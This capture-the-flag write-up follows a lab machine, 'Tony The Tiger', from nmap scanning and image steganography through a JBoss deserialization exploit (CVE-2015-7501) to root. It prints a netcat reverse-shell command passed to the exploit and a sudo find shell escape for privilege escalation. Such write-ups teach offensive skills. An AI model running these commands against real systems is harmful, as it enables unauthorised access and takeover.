 # Tony The Tiger

## Reconnaissance

Ip addr : 10.10.214.90

## Scanning & Enumeration

* Nmap Scan

```shell
nmap -A -T4 -oN nmap/all_port 10.10.214.90
```

the scan result can be found [here](nmap/all_port)

We have the following open ports and services running :

| port number | service | version |
| --- | ---| --- |
| 22 | ssh | OpenSSH 6.6.1p1(Ubuntu) |
| 80 | http | Apache httpd 2.4.7 ((Ubuntu)) |
| 1090 | java-rmi | Java RMI |
| 1091 | java-rmi | Java RMI |
| 1098 | java-rmi | Java RMI |
| 1099 | java-object |Java Object Serialization |
| 4446 | java-object |Java Object Serialization |
| 5500 | hotline ? |  |
| 8009 | ajp13 | Apache Jserv (Protocol v1.3) |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 8083 | http |  JBoss service httpd |

* Some Stenography

We are invinted to read tony **blog** to find a flag.
After reading the first post we found some hint about hidden data in image posted in the blog.
![hint](img/hint.png)
So we start doing  somme stego on image on the website, and  we got our flag.
![stego](img/tony-flag.png)
by reading the post 2 source file with vim.

* [CVE-2015-7501](https://www.cvedetails.com/cve/CVE-2015-7501/)

The creator of the room , give us a [exploit](assets/exploit/jboss/exploit.py) for this vulnerability to use against ours target.

## Exploitation

* exploiting CVE 2015-7501

this exploit allow us to run command on our target so we run

```shell
python exploit.py 10.10.214.90:8080  'nc -e /bin/sh $RHOST $RPORT'
```

and get a user shell
![shell](img/user-shell.jpg)

* Enumarating the machine
  
some some note files. [here]
afters reading theme find the [credentials] of the user jboss
![shell Jboss](img/shell-jboss.png)

### Privilege Escalion

* sudo -l
  
![sudo -l](img/sudo-l.png)
we can run the find command with root privilege without password.

* Time to get root
  
using [GTFObin](https://gtfobins.github.io/gtfobins/find/) this is to much easy to get.

```shell
sudo find . -exec /bin/sh \; -quit
```

and root here :
![root shell](img/shell-root.png)

* Get The root flag

at /root/root.txt we found a base64 encode of the root flag
decode it with <https://www.base64decode.org/> and crack the md5 result with <https://crackstation.net/>